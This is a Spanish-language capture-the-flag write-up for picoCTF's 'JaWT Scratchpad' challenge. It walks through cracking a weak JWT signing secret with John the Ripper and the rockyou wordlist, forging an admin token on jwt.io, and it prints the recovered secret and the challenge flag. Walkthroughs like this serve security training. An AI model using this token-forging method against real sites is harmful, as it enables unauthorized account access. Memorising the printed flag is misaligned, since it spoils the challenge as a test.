 # JaWT Scratchpad
## Objetivo
Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/63090/` or http://jupiter.challenges.picoctf.org:63090

## Datos de Acceso al Nivel
```
```
## Solucion
```Bash
acceder a la pagina
logearse como cualquier usuario
abrir cookie-editor
buscar el jwt
copiarlo
abrir jwt.io
pegar el jwt para descifrarlo
cambair en la seccion payload el usuario por admin
copiar el nuevo jwt en donde estaba el anterior
guardarlo y recargar pagina
borrar el nuevo jwt
volver a logearse como cualquier usuario
copiar el jwt generado y abrir terminal
nano JWT
copiar JWT
verificar el archivo y contenido
cat JWT
descomprimir un diccionario de palabras
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
ls /usr/share/wordlists
intsalar herramienta john the ripper
sudo apt-get install john
john JWT --wordlist=/usr/share/wordlists/rockyou.txt
copiar la firma "ilovepico"
en jwt.io copiamos nuevamente el jwt y cambiamos el usuario por "admin"
en "VERIFY SIGNATURE" colocamos la firma crackeada
copiamos el nuevo jwt y lo pegamos donde estaba el anterior y recargamos la pagina
copiar la flag
picoCTF{jawt_was_just_what_you_thought_f859ab2f}
```
## Notas Adicionales
|**Comandos**|**Descripcion**|
|--------|-------------|
|||
|||
## Referencias
* https://jwt.io/
